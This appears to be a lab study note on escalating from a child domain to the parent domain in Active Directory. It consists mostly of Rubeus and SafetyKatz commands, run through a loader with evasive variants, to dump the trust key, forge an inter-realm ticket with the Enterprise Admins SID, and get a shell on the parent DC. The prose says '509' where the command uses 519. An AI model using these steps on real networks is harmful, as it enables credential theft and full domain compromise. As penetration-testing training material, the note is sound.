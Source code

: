 **Domain Admin privileges are required for the following**

Ultimate goal is to extract **trust key** from `Child-DC` and forge a inter-realm ticket that has the sIDHistory set to `509` so we can impersonate a `Enterprise Admin` and access resources from the Parent Domain

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Extract trust key - '`mcorp$` is the trust account
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge inter-realm TGT
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:f03c20c4974d6f6426f4f3c9b4487549 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                 |
| ------------------- | ----------------------------------------------------------- |
| silver              | Name of the module                                          |
| /rc4                | NTLM hash of the trust key                                  |
| /sid                | SID of the current domain                                   |
| /sids               | SID of the **enterprise admins** group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC         |
| /user:Administrator | Username for which the TGT is generated                     |
| /nowrap             | No newlines in the output                                   |

Use forged inter-realm ticket
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

Access Parent Domain DC
```powershell
winrs -r:mcorp-dc.MONEYCORP.LOCAL cmd
```
